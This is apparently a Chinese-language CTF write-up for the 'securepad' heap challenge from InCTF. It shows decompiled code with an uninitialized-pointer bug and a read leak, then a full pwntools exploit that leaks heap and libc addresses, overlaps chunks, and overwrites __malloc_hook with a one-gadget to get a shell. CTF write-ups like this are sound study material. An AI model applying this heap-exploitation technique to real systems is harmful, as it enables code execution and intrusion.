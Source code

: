 ```yaml
---
title: securepad
date: 2018-10-11 18:04:16
tags: pwn
layout: post
---
```

uninitialized varliable
heap
<!--more-->
# Start
inctf关于uninitalized题目
[link][1]
# 漏洞挖掘
## 主要漏洞点
如果index不在0-9那么ptr就未被初始化可以在之前的checkpass的函数里控制它
```arm
__int64 delete()
{
  void *ptr; // [rsp+10h] [rbp-20h]
  unsigned __int64 i; // [rsp+18h] [rbp-18h]
  __int64 index; // [rsp+20h] [rbp-10h]

  puts("Enter index");
  index = get_int();
  for ( i = 0LL; i <= 9; ++i )
  {
    if ( i == index )
    {
      ptr = table[i];
      break;
    }
  }
  if ( ptr )
  {
    free(ptr);
    table[i] = 0LL;
  }
  return 0LL;
}
```
## 泄露
```arm
__int64 __fastcall read_n(void *ptr, int size)
{
  int len; // [rsp+1Ch] [rbp-4h]

  len = read(0, ptr, size);
  if ( len == -1 )
    exit(0);
  if ( *((_BYTE *)ptr + len - 1) == 10 )
    *((_BYTE *)ptr + len - 1) = 0;
  return (unsigned int)(len - 1);
}
```
采用read 没有截断 可以free后malloc回来泄露

# 漏洞利用
* 泄露heap地址
* 利用uninitialize variable 造成overlap
* 改写size位后free进unsorted bin
* leak libc
* fast bins atk control __malloc_hook
* call printerr

# EXP
```python
from pwn import *

def check(pwd):
	p.sendlineafter("Enter password\n",pwd)
def add(size,c):
	p.sendlineafter(">>> ",str(1))
	check("")
	p.sendlineafter("size\n",str(size))
	p.sendafter("data",c)
def edit(idx,c):
	p.sendlineafter(">>> ",str(2))
	check("")
	p.sendlineafter("index\n",str(idx))
	p.send(c)
def free(idx):
	p.sendlineafter(">>> ",str(3))
	check("")
	p.sendlineafter("index\n",str(idx))
def show(idx):
	p.sendlineafter(">>> ",str(4))
	check("")
	p.sendlineafter("index\n",str(idx))
p=process("./securepad")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
add(0x68,"A")#0
add(0x68,"B")#1
free(1)
free(0)
add(0x68,"A")#0
#context.log_level='debug'
show(0)
data=p.readline()
heap=u64(data[:-1].ljust(8,'\x00'))-0x41
log.warning(hex(heap))
#leak over 
add(0x68,"B")#1
#clear fastbins
p.sendlineafter(">>> ",str(3))
p.sendafter("Enter password\n","A"*0x3f0+p64(heap+0x10))
p.sendlineafter("index\n",str(10))
#free #0
edit(0,p64(heap+0x70-0x10).ljust(0x58,'\x00')+p64(0x71)+p64(0x0))
add(0x68,"C")#2
add(0x68,"D")#3over lap
add(0x38,"E"*0x10+p64(0)+p64(0x21))#4 for the next_chunk's check
#fenshui over 
edit(3,p64(0)+p64(0x91))#set fake size
free(1)
#do leak libc
edit(3,"A"*0x10)
show(3)
p.readuntil("A"*0x10)
data=p.readline()
base=u64(data[:-1].ljust(8,'\0'))-(0x7ffff7dd1b78-0x00007ffff7a0d000)
log.warning(hex(base))
libc.address=base
#leak over
# fix bins
edit(3,p64(0)+p64(0x91))

free(0)
edit(2,p64(libc.symbols['__malloc_hook']-35))
add(0x68,"A")#0
one=0xf02a4+base
add(0x68,"A"*19+p64(one))#1
free(0)
free(2)
#gdb.attach(p,'b * 0xe88+0x0000555555554000')
p.interactive("nier>")
```
[1]:https://github.com/n132/banana/tree/master/Pwn/securepad